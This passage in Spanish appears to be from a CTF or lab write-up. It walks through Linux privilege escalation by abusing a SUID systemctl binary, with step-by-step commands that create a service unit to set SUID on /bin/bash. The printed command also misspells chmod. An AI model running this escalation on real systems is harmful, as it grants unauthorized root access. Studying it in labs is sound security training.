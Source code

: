 En la cual vamos buscar el permiso que nos interesa en este caso sería **systemctl**.

-------------------------------------------------------

Os dejo aqui el acceso directo para ver la sintaxis:

**https://gtfobins.github.io/gtfobins/systemctl/#suid**

-------------------------------------------------------

El orden para todo esto seria el siguiente:

-------------------------------------------------------

Primer paso:

````bash

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmd +s /bin/bash"

Enter

````

Segundo paso:

````bash


[Install]
WantedBy=multi-user.target' > $TF

Enter

````

Tercer paso:

````bash

systemctl link $TF


````

Cuarto paso:

````bash

systemctl enable --now $TF

````

-------------------------------------------------------

Y como podemos ver ahora **/bin/bash** tiene permisos **SUID**:
